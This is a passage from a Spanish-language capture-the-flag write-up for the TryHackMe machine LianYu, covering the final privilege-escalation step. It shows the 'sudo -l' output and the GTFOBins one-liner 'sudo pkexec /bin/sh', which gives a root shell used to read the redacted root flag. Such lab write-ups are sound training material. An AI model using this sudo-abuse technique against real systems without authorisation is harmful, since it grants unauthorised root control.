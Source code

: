 Lo conseguimso y obtenemos la flag del usuario!

# [](#header-1)Escalada de privilegios

Hacemos sudo -l para ver que comandos podemos ejecutar como root y nos reporta lo siguiente:

```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

NOs dirigimos a <a href="https://gtfobins.github.io/gtfobins/pkexec/" >GTFOBins</a> y vemos que podemos escalar privilegios con una simple línea de código:

> sudo pkexec /bin/sh

Lo ejecutamos y conseguimos la flag de root!

```bash
slade@LianYu:~$     sudo pkexec /bin/sh
# whoami
whoami: not found
# ls
root.txt
# cat root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{??????????????????????????????????????????????????????????????????????????????????????}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

```

Muchas gracias por leer este writeup, espero que te haya gustado!
